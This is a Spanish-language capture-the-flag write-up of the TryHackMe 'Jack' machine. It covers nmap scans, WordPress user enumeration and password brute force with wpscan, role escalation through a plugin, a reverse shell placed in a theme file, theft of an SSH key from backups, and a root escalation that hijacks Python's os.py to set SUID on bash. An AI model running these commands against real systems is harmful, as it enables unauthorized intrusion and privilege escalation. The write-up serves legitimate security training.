




# 🧠 Jack — Writeup
Máquina: "Difícil"

Tiempo estimado: 90 minutos

Sistema operativo: Linux

Plataforma: TryHackMe

---

# 📌 Introducción
Jack es una máquina que combina la explotación de un CMS ampliamente conocido con vectores de post-explotación interesantes, como el análisis de backups y el secuestro de librerías de Python debido a permisos de grupo mal configurados.

# 🔍 Reconocimiento inicial
Comenzamos con el escaneo de puertos estándar:

## Listado de puertos abiertos
```bash
nmap -p- -sS --min-rate 5000 -Pn -n <IP> -oG ports
```
## Identificación de servicios
```bash
nmap -p22,80 -sCV <IP> -oN services
```
# 📊 Resultados del escaneo
22/tcp → SSH

80/tcp → HTTP (WordPress ejecutándose en http://jack.thm)

# 🌐 Enumeración de WordPress y Brute Force
Tras añadir jack.thm al /etc/hosts, utilizamos wpscan para enumerar usuarios:

```bash
wpscan --url http://jack.thm --enumerate u
```
Identificamos a los usuarios: jack, wendy y danny. Procedimos a realizar un ataque de fuerza bruta sobre estos usuarios utilizando el diccionario fasttrack.txt:

```bash
wpscan --url http://jack.thm -U jack,wendy,danny -P /usr/share/wordlists/fasttrack.txt
```
Resultado: Obtuvimos las credenciales válidas para el usuario wendy.

# 🐚 Acceso y Escalada a Administrador
Dentro del panel de WordPress como Wendy, los permisos eran limitados. Sin embargo, aprovechamos que el plugin User Role Editor estaba instalado. Al interceptar la petición de actualización de perfil con Burp Suite, modificamos los parámetros para asignarnos el rol de administrator.

Con acceso total, editamos el archivo header.php del tema para insertar una reverse shell y obtuvimos acceso como www-data.

🛠️ Estabilización de la TTY
```bash
script /dev/null -c bash
# Ctrl + Z
stty raw -echo; fg
reset
```
# 📁 Movimiento Lateral: Usuario Jack



En el directorio /var/backups, localizamos un archivo comprimido que contenía una copia del home. Al inspeccionarlo, encontramos la clave privada SSH de Jack: 



Descargamos el archivo a nuestra máquina.

Extrajimos la clave id_rsa.

Conexión exitosa: ssh -i id_rsa jack@jack.thm



# 🔑 Escalada de Privilegios: Python Library Hijacking
Una vez como el usuario jack, descubrimos que pertenecíamos al grupo family. Al buscar archivos escribibles por este grupo, encontramos algo crítico:

```bash
find /usr/lib/python2.7 -writable 2>/dev/null
```
Teníamos permisos de escritura en la librería global os.py. Además, detectamos un script en /opt/statuscheck/ que corre como root e importa este módulo.

# ⚙️ Explotación del Vector
Para evitar errores de carga del módulo, inyectamos el comando usando posix.system al principio del archivo /usr/lib/python2.7/os.py:

```bash
echo 'import posix; posix.system("chmod +s /bin/bash")' > /tmp/payload.py
cat /usr/lib/python2.7/os.py >> /tmp/payload.py
cat /tmp/payload.py > /usr/lib/python2.7/os.py
```
Tras esperar a que el cronjob de root se ejecutara, la bash obtuvo el bit SUID:

```bash
ls -l /bin/bash
# Resultado: -rwsr-xr-x
```
🏁 Obtención de Root



Ejecutamos la shell con privilegios persistentes:
```bash
/bin/bash -p
whoami
```
root 🚩

# ✅ Conclusión
La máquina Jack demuestra la importancia de:

- Seguridad en CMS: No utilizar contraseñas presentes en diccionarios comunes.

- Gestión de Backups: No dejar claves privadas en directorios legibles por otros usuarios.

- Hardening de Librerías: Nunca dar permisos de escritura a usuarios normales en directorios globales de librerías (/usr/lib/...).
